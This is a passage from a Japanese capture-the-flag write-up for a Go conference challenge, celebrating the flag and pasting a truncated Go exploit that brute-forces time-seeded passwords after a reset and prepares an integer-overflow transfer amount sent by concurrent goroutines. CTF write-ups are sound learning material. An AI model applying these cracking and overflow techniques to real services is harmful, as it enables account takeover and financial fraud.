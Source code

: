 ***ッシャオラア!!!*** capture the flagじゃい!!!

[FlagがURLになっており](https://public.kanmu.jp/gocon2023/congratulations-Y8RYX3gmMZ.html)､図[ref:omedetou]のようなウェブページが見られる｡

<center>
[label: omedetou]
<img src="/pictures/{{ page.id }}/ctf.png" alt="">
図[ref: omedetou] おめでとう
</center>

<center>
[label: baka]
https://twitter.com/Nymphium/status/1664499177492217856
図[ref:baka] Share on Twitterボタンがあるのだが､flagっぽい文字列が出たことに満足してURLを踏む前に満足してツイートした筆者
</center>

---

最後に､全体像を貼っておきます｡

```go:explot.go
func generatePassword(seed int64) string {
	// 割愛
}

func clackPwd(u *User) {
	t := time.Now().Unix()
	passwordReset(u)

	for i := t - 2; i <= t+4; i++ {
		u.Password = generatePassword(i)
		r, _ := balance(u)
		if r != `{"error": "Authentication failed"}` {
			fmt.Printf("%+v\n", u)
			return
		}
	}

	panic(fmt.Sprintf("could not crack password for user %s", u.Id))
}

func main() {
	wg := &sync.WaitGroup{}
	wg.Add(2)

	alice := &User{Id: "alice"}
	bob := &User{Id: "bob"}
	go func() {
		clackPwd(alice)
		wg.Done()
	}()

	go func() {
		clackPwd(bob)
		wg.Done()
	}()
	wg.Wait()

	offset := -1 << 63
	amount := fmt.Sprintf("%d", offset + 1000000)
	count := 10
	wg2 := &sync.WaitGroup{}
	wg2.Add(count)

	for i := 0; i < count; i++ {
```